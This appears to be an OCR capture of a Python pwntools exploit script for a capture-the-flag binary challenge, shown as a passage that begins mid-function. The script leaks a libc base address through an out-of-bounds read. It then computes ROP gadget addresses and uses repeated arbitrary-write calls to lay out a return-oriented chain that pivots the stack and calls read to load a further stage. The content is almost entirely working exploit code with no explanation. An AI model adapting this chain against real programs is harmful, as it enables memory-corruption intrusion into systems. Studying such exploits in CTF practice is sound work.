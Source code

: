 ```python
        return process(elf.path, env=processarg)
    else:
        return process(elf.path, env=processarg)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)
        
io = start()

############################################

def edit(index, content):
    io.sendlineafter(b'Exit', b'1')
    io.sendlineafter(b'get',str(index).encode())
    sleep(0.5)
    io.send(p32(content))

def edit2(index, content):
    io.sendlineafter(b'get',str(index).encode())
    sleep(0.5)
    io.send(p32(content))


def get(index):
    io.sendlineafter(b'Exit', b'2')
    io.sendlineafter(b'get',str(index).encode())

get(0x404080)

libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - (0x7f6243091780 - 0x7f6242e76000)
success(f"libc_base: {hex(libc_base)}")

pop_rsp = libc_base + 0x0000000000035732
pop_rdi = libc_base + 0x000000000002a3e5
pop_rsi = libc_base + 0x000000000016333a
pop_rdx_r12 = libc_base + 0x000000000011f2e7
pop_rax = libc_base + 0x00000000000439c8
syscall = libc_base + 0x00000000000d2975

openat_addr = libc_base + libc.sym['openat']
write_addr = libc_base + libc.sym['write']
read_addr = libc_base + libc.sym['read']
main_addr = 0x40160A

edit(0x404060,main_addr & 0xffffffff)
edit(0x404068,0x4040B0)
edit(0x4040B0, pop_rdi & 0xffffffff)

edit2(0x4040B4, pop_rdi >> 32)   
edit2(0x4040B8, 0)
edit2(0x4040C0, pop_rsi & 0xffffffff)
edit2(0x4040C4, pop_rsi >> 32)
edit2(0x4040C8, 0x4040D0)
edit2(0x4040D0, pop_rdx_r12 & 0xffffffff)    
edit2(0x4040D4, pop_rdx_r12 >> 32)
edit2(0x4040D8, 0x1000)  
edit2(0x4040E0, 0)
edit2(0x4040E8, read_addr & 0xffffffff)
edit2(0x4040EC, read_addr >> 32)

edit2(0x404008, 0x4040B0)
edit2(0x40400c, 0)
```